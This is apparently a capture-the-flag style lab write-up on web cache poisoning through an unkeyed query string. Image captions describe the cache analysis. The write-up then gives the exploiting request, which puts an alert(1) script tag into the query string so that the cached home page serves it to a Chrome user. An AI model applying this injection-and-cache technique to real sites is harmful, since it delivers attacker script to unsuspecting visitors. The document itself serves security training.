





# Web cache poisoning via an unkeyed query string
# Objecttive
This lab is vulnerable to web cache poisoning because the query string is unkeyed. A user regularly visits this site's home page using Chrome. To solve the lab, poison the home page with a response that executes `alert(1)` in the victim's browser.

# Solution
## Analysis
||
|:--:| 
| *Normal request* |
||
| *Request with extra parameter* |
||
| *Response to request with extra parameter is cached* |
||
| *Response to request with modified extra parameter comes still from cache* |
||
| *Response to request with modified extra parameter comes still from cache* |

## Exploitation
Payload:
```
GET /?xyz=xyz'/><script>alert(1)</script>
```

||
|:--:| 
| *Web cache poisoning (for Chrome's User-Agent)* |